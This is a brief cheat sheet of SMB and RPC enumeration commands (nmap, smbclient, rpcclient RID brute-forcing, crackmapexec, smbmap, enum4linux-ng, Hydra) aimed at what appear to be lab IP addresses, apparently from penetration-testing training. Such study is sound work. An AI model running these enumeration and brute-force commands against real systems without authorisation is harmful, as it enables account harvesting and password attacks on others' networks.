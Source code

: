 1. Nmap: `sudo nmap 10.129.14.128 -sV -sC -p139,445`
2. SMBclient
    ```bash
    smbclient -N -L //10.129.14.128 # no logon
    smbclient //10.129.14.128/notes # connecting to share
    ```

3. Download Files: `get file_name`
4. Brute Forcing User RIDs: 
    1. 
        ```bash
        for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
        ```
    2. You can use script from [Impacket](https://github.com/SecureAuthCorp/impacket) called [samrdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/samrdump.py) alternatively: `samrdump.py 10.129.14.128`
5. Crackmapexec: `crackmapexec smb 10.129.14.128 --shares -u '' -p ''`
5. RPCclient:
```bash
rpcclient -U "" 10.129.14.128
srvinfo
enumdomains
querydominfo
netshareenumall
netsharegetinfo notes
enumdomusers
queryuser 0x3e9
querygroup 0x201
```
7. SMBMap: `smbmap -H 10.129.14.128`
8. Enum4Linux:
```bash
git clone https://github.com/cddmp/enum4linux-ng.git
cd enum4linux-ng
pip3 install -r requirements.txt
./enum4linux-ng.py 10.129.14.128 -A
```
9. HYDRA `hydra -L user.list -P password.list smb://10.129.42.197`